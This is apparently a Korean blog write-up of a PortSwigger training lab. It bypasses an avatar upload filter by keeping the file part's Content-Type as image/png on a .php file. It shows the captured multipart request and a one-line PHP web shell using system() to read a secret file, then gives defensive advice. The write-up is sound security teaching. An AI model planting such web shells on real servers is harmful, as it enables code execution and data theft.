




+++
date = '2026-09-28T21:10:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Web shell upload via Content-Type restriction bypass"
summary = "파일 부분의 Content-Type을 image/png로 유지해 PHP 업로드 제한을 우회하는 File Upload 풀이"
toc = true
tags = ["File Upload", "Web Shell", "PortSwigger", "Apprentice"]
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

> 

이 랩은 이미지 업로드 시 파일 타입을 검사하지만, 그 판단을 사용자가 수정할 수 있는 값에 의존한다. PHP 파일을 업로드해 `/home/carlos/secret`의 내용을 확인하고 제출하면 문제가 해결된다.

실습 계정은 `wiener:peter`다.

### File Upload 진단

먼저 주어진 계정으로 로그인하여 이미지 업로드 요청을 확인한다.

```text
POST /my-account/avatar HTTP/2
Host: 0ad700f404209122809d999f00590034.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9I6EjfpNm48nOkY0
...

------WebKitFormBoundary9I6EjfpNm48nOkY0
Content-Disposition: form-data; name="avatar"; filename="fake-image.png"
Content-Type: image/png

image
------WebKitFormBoundary9I6EjfpNm48nOkY0
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary9I6EjfpNm48nOkY0
Content-Disposition: form-data; name="csrf"

Ci8TJSbCLoRDNbY9Ubf6uOsNlMncRJVT
------WebKitFormBoundary9I6EjfpNm48nOkY0--
```

파일 부분의 `Content-Type: image/png`를 유지하고 `filename`의 확장자만 `.php`로 바꾸어도 업로드가 성공한다. 여기서 바꿔 보는 타입은 파일 부분의 MIME 타입이며, 요청 전체는 계속 `multipart/form-data`를 사용한다.

본문을 `<?php phpinfo(); ?>`로 바꾸어 다시 업로드한 뒤 파일 URL을 요청하면 PHP 정보 페이지가 반환된다.



---

## 익스플로잇

같은 파일 이름과 MIME 타입을 유지하고, 내용을 랩의 대상 파일을 읽는 PHP 코드로 바꾼다.

```php
<?php system("cat /home/carlos/secret");?>
```

이제 업로드 경로 `/files/avatars/fake-image.php` 에 접근하면 파일 내용을 확인할 수 있다.



확인한 문자열을 제출하면 실습이 완료된다.



---

## 정리

파일 부분의 `Content-Type`은 클라이언트가 지정하는 값이다. 서버가 `image/png`라는 선언을 그대로 신뢰하면서 PHP 코드가 검증을 통과했고, 저장된 `.php` 파일은 이후 요청에서 실행됐다.

대응에서는 서버가 파일 내용을 검사하고 허용한 형식과 대조해야 한다. 여기에 업로드 디렉터리의 실행 제한을 적용하면, 파일 타입 검증에 결함이 생겨도 곧바로 코드 실행으로 이어지는 경로를 줄일 수 있다.

유형별 원리와 다른 실습은 [File Upload Lab](/lab/portswigger-file-upload/)에 정리했다.
